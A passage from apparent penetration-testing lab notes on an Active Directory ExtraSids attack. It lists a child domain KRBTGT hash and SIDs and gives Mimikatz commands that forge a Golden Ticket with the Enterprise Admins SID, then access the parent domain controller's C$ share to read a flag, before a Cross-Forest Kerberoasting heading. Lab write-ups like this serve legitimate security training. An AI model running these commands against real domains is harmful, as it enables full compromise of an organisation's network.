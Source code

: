 
#### Step 6: The attack

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Before the attack, we can confirm no access to the file system of the DC in the parent domain:

```powershell
# List C: in the parent domain:
ls \\$parenhostname.$domain\c$
# Example: 
# ls \\academy-ea-dc01.inlanefreight.local\c$
```

Using Mimikatz and the data listed above, we can create a Golden Ticket to access all resources within the parent domain.

```powershell
kerberos::golden /user:$madeupUserName /domain:$targetedFQDN /sid:$sidTargetedDomain /krbtgt:$NTLMhashOfKRBTGTaccountDomain  /sids:$SIDofEnterpriseAdminGroup /ptt

# Example:
# kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

Now, let's list the kerberos tickets in memory:

```powershell
klist
```

Now we can perform actions in the parent domain, such as reading a flag:

```powershell
# List C: in the parent domain:
ls \\$parenhostname.$domain\c$
# Example: 
# ls \\academy-ea-dc01.inlanefreight.local\c$

# Read the flag
cat \\$parenhostname.$domain\c$path\to\file.txt
# Example: 
# cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

## Cross-Forest Kerberoasting

 Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

